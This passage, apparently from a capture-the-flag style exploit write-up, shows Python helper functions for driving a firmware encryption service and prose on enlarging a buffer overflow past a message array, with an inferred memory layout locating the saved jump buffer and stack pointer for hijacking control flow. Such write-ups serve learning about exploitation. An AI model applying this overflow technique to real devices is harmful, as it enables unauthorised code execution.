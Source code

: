 ```python
            log.info("reading responses... %d", len(resps))
        resp = s.recvn(8)
        if resp == b"EOF!EOF!":
            raise EOFError()
        resp, cmd = u32(resp[:4]), u32(resp[4:])
        msg = Message.from_bytes(s.recvn(0x114))
        if cmd == RESPONSE:
            break
        resps.append(msg)
    return resp, resps

def add(msg):
    write_pkt(ADD_MSG, msg=msg)

def encrypt(n):
    write_pkt(ENCRYPT)
    for i in range(n):
        resp, data = read_responses()
        assert resp == 1
    resp, data = read_responses()
    assert resp == 1
    return data

def decrypt(n):
    write_pkt(DECRYPT)
    for i in range(n):
        resp, data = read_responses()
        assert resp == 1
    resp, data = read_responses()
    assert resp == 1
    return data

def decrypt_block(block):
    add(Message(mode=1, data=b"\0" * 16 + block))
    data = decrypt(1)
    return data[-1].data.ljust(32, b"\0")[16:32]
```

Now that we can control `msg_count`, we can progressively increase the size of the overflow in order to corrupt the memory beyond `msgs`. We can check the IVs using technique (2) above to see where the IV array is, and we can check to see if our `jmpbuf` is still intact by triggering an exception and watching for a crash. By doing this ([`fwexploit1_memtest.py`](files/stage2c/fwexploit1_memtest.py)), we can infer the following memory layout:

```c
0x16048  msg  msgs[10]
0x16b10  uint num_msgs
0x16b14  byte unused[0x114]
0x16c28  byte ivs[16][10]
0x16cc8  exc_info exc
    0x16cd8  jmp_buf exc.jmpbuf
        0x16d30 uint64_t exc.jmpbuf.x30
        0x16d40 uint64_t exc.jmpbuf.sp
```

